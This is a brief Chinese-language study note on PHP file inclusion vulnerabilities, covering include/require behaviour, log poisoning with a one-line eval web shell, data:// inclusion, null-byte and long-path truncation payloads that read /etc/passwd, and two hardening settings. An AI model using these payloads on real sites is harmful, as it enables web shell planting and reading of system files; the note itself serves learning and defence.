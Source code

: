 #   文件包含

-   ##  凡是被`include()`打开的文件，都会被php进行解析

-   include()：执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行
-   require()：只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本
-   include_once()和require_once()：若文件中代码已被包含则不会再次包含

-   ### **文件包含分为：本地文件包含、远程文件包含**

- # 一些姿势
- ##    本地包含配合apache日志拿shell
    - pache日志分为access.log与error.log，当我们请求一个url地址时，便会记录在access.log中，但如果访问一个不存在的页面，便会将这个页面写入access.log中。如访问URL:http://www.xxx.com/<?php eval([$_POST]);?>则会将一句话写入到access.log中，但是一般来说，写入到access.log文件中的一句话是被编码的，所以需要抓包绕过，而且利用此漏洞需要知道access.log的地址，不然便没有。
- ##    利用php协议进行包含
    - `http://www.test.com/index.php?file=data:text/plain,<?php phpinfo();?>%00`

-   ##  截断包含
    -   有些开发者为了防止本地包含漏洞，会编写一下代码:
        -   `<?php Include  $_GET['page'].".php"?>`
    -   此时就可以采取字符串截断：
        -   00截断包含
            -   这样的话比如上传一个1.jpg图片码，则访问http://www.xxx.com/1.jpg时，访问的是1.jgp.php，以为没有这个文件所以报错。这是，可以尝试访问http://www.xxx.com/1.jpg%00
        -   使用长目录截断
            -  ` ././././././././././././././etc/passwd
                    或者
                    ////////////////////////////etc/passwd
                    或者
                    ../a/etc/passwd/../a/etc/passwd/../a/etc/passwd`
    
-   ##  文件包含漏洞修复
    -   开启open_basedir函数，将其设置为指定目录，则只有该目录的文件允许被访问。
    -   关闭allow_url_include函数，防止远程文件包含。   

